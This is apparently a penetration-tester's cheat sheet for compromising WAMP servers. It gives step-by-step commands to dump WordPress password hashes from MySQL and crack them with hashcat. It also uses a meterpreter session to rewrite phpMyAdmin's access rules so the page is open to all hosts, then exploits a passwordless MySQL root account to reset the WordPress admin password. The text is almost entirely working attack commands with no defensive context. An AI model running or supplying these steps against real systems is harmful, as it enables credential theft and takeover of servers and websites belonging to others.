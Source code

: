 # WAMP

- Check Web app database for hashed user credentials e.g. WordPress.
```
show databases;
use wordpress;
select * from wp_users;

1 | admin      | $P$BXzMzwqxm65vuHegt/rsJN2VbXPtT.1 | admin         | admin@example.com
```

- Crack hashed credentials.
```
hashcat -m400 -a0 hashes.txt /usr/share/wordlists/rockyou.txt
```

- Modify phpmyadmin.conf to allow remote access.
```
meterpreter > cd C:\\wamp\\alias\\
meterpreter > dir
meterpreter > download C:\\wamp\\alias\\phpmyadmin.conf

Edit ACL:

<Directory "c:/wamp/apps/phpmyadmin3.4.10.1/">
    Options Indexes FollowSymLinks MultiViews
    AllowOverride all
        Order Deny,Allow --> Delete
        Deny from all --> Delete
        Allow from 127.0.0.1 --> Allow from all
</Directory>

meterpreter > upload ~/phpmyadmin.conf
meterpreter > cat phpmyadmin.conf
meterpreter > shell

net stop wampapache
net start wampapache
```

- There is no such thing as a phpMyAdmin user. phpMyAdmin is a front-end for MySQL, so we're talking about MySQL users.
```
http://<ip>:8585/phpmyadmin

Your configuration file contains settings (root with no password) that correspond to the default MySQL privileged account. Your MySQL server is running with this default, is open to intrusion, and you really should fix this security hole by setting a password for user 'root'.
```

- Change WordPress admin password from phpMyAdmin.
```
Click on wordpress.
Click on wp-users.
Edit admin user.
Set user_pass to MD5 (function) and password123 (Value).

Go back to http://<ip>:8585/ and click on wordpress under Your Projects.
Alternatively, http://<ip>:8585/wordpress/wp-admin
Log in with the new password.
```

- Change WordPress admin password with mysql
```
mysql -u root -p -h <ip>
use wordpress;
UPDATE wp_users SET user_pass = MD5('password123') WHERE user_login = 'admin';
```
